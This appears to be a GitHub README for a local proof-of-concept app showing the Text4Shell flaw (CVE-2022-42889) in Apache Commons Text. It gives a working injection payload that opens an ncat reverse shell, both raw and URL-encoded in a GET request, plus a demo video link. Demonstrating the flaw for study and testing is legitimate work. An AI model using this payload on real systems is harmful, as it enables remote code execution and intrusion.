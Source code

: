 # CVE-2022-42889 Text4Shell
This vulnerability is found in Apache Commons Text v1.5-1.9 and allows a remote attacker to execute arbitrary code IF user controlled input makes its way directly into a `StringSubstituter` which is fairly rare to find in the wild.

The payload used in this POC is:
`${script:javascript:java.lang.Runtime.getRuntime().exec('ncat -e /bin/bash 0.0.0.0 4444')}`

Which looks like this when part of an HTTP GET request:
`http://localhost:8080/Text4Shell/?search=$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27ncat%20-e%20/bin/bash%200.0.0.0%204444%27)%7D`

The app was built in Eclipse, a tutorial will be added soon if you want to build, run and test it yourself locally.

# Demo

https://user-images.githubusercontent.com/58807068/198384946-3a8736d9-64c6-4fb9-a2a0-47bf8627ffda.mp4
